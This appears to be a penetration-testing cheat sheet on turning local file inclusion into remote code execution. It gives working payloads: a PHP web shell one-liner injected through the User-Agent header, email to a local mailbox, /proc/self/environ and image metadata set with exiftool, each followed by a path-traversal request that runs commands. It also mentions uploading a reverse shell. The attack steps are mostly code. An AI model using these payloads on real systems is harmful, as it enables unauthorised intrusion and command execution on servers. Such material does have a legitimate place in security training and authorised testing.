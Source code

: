 There are several ways to escalate a LFI to a RCE.

### Via Log Poisoning

We can poison the  logs with the user agent.

```text
GET / HTTP/1.O
Host: example.com
User-Agent: <?php system($_GET["cmd"]);?>
```

And  try to access to `/var/log/apache2/access.log`.

```text
/include.php?file=../../../../var/log/apache2/access.log&cmd=id
```

### Via Email

If SMTP is open in the server we can easily send a mail to an internal account. "user@localhost" containing the following payload `<?php system($_GET["cmd"]);?>`

And access to the mail inbox of the user.

```text
/include.php?file=../../../../var/mail/user&cmd=id
```

### Via Environ

Like a log file, sending the payload in the User-Agent, it will be reflected inside the /proc/self/environ file.

```text
GET /include.php?file=../../../../proc/self/environ&cmd=id HTTP/1.O
Host: example.com
User-Agent: <?php system($_GET["cmd"]);?>
```

### Via Upload

If exists a functionality that leads us to upload an arbitrary file, we can upload directly a reverse shell or simply upload a image with the payload injected on metadata.

To modify metadata of a file we can use exiftool.

```text
exiftool -DocumentName='<?php system($_GET["cmd"]);?>' myimage.jpg
```

Once uploaded we can access it.

```text
/include.php?file=../../uploads/myimage.jpg&cmd=id
```

## References

* [https://portswigger.net/web-security/file-path-traversal](https://portswigger.net/web-security/file-path-traversal)
* [https://book.hacktricks.xyz/pentesting-web/file-inclusion](https://book.hacktricks.xyz/pentesting-web/file-inclusion)

